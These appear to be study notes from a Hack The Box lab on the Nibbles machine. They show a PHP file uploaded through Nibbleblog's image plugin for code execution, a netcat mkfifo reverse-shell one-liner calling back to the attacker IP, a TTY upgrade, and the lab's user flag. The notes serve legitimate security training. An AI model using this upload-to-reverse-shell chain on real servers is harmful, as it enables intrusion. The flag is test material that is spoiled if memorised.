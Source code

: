 - We are able to log into the admin portal, so let's turn this access into a way of creating a reverse shell access to the web server.
- A Metasploit module may do the trick, but let's use other avenues to do this instead.
![[Screenshot_20241107_131847.png]]
- We can't make a new page, embed code, or upload files as it doesn't seem to like the path.
- Instead, let's check out the plugins page.
- Looking at it, let's use his plugin to upload a snippet of `PHP` code instead of an image.
```php
<?php system('id'); ?>
```
- We can save this code to a file.
- Then, click on the `Browse` button and upload it.
- We get a bunch of errors, but it seems like the file may have uploaded.
```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```
- The uploaded file is found under `/nibbleblog/content/private/plugins/my_image/`.
- We see `db.xml` and `image.php` with a recent last modified date, indicating successful upload.
- Now, we need to check to see if we have command execution on these files.
```shell-session
secmancer@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- We sure in fact do!
- Looks like we gained remote code execution on the Apache server running as `nibbler` user.
- We can modify the PHP file to obtain a reverse shell and upload it again.
- So, we can use resources like PayloadAllTheThings and HighOnCoffee for reverse shell techniques.
- Looks like aa Bash reverse shell one-liner will work best, so let's add that to the PHP script.
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
- We will add our `tun0` VPN IP address in the `<ATTACKING IP>` placeholder.
- Let's also add a port of our choice for `<LISTENING PORT>`.
- This way, we can catch the reverse shell on our `netcat` listener.
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
- We upload the file again and start a `netcat` listener in our terminal:
```shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```
- `cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.
```shell-session
secmancer@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
- We need to upgrade the shell to a fully interactive TTY for better usability.
- The initial shell lacks features like `su`, text editors, and tab-completion.
- We can refer to [this post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) for methods to achieve this.
- So, let's use a `Python` one-liner to spawn a pseudo-terminal for improved functionality.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as `Python2` seems to be missing from the system!
```shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```
- We have `Python3` though, which works to get us to a friendlier shell by typing `python3 -c 'import pty; pty.spawn("/bin/bash")'`. 
- Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.
```shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```


### Questions
- Gain a foothold on the target and submit the user.txt flag
	- 79c03865431abf47b90ef24b9695e148